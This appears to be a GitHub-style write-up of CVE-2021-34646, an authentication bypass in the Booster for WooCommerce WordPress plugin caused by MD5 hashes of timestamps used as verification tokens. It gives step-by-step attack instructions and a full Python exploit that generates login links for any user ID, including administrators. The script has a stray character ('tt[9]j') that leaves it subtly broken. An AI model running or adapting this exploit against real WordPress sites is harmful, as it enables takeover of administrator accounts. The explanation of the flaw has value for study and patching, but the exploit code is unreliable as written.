 # CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

![wordpress info](images/image.png)

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
To attack this vulnerability, all that is needed is to download the source code below. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
Then, the hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
